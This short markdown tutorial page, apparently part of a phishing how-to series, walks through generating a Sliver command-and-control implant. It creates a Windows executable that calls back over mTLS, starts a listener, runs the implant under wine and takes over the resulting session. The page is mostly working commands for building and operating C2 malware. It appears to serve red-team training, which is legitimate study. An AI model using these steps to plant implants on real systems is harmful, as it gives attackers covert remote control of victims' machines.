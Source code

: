 +++
title = "Sliver: Generating an implant"
weight = 50
+++

### Generate a new implant

```bash
mkdir -p ~/Desktop/op/sliver/implants
cd ~/Desktop/op/sliver
~/opt/sliver/sliver-server_linux
```

We should now be in a `sliver` shell.

![SLicer Shell](/static/how-to-phishing/sliver-shell.png)

Now we can gernate a test implant:

```bash
generate --mtls 127.0.0.1 --save implants/default-sliver.exe
```

### Testing implant

In the sliver shell:

```bash
mtls
```

In a new terminal window:

```bash
wine ~/Desktop/op/sliver/implants/default-sliver.exe
```
![Sliver Implant Test](/static/how-to-phishing/sliver-implant-test.png)

Now we can use the implant by calling `use [session id]`:

![Sliver Implant Usage](/static/how-to-phishing/sliver-implant-use.png)

